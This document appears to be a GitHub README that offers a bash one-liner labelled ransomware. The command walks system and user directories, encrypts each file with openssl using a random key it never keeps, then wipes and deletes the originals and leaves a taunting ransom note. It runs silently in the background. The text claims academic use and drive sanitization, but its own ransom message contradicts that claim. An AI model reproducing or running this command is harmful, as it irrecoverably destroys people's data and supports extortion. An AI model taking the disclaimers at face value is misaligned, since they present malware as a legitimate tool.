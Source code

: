 # Ransomware-Oner-Line
This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### Code

```
Ranswom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do openssl enc -aes-256-cbc -a -salt -in $i -out $i.cry -k $(echo -n $RANDOM | base64 | sha256sum) && echo '' > $i && rm -rf $i;echo 'All your files has been encrypted ! hehehe 3:)' > $HOME/README.TXT;done >/dev/null 2>&1& 
```
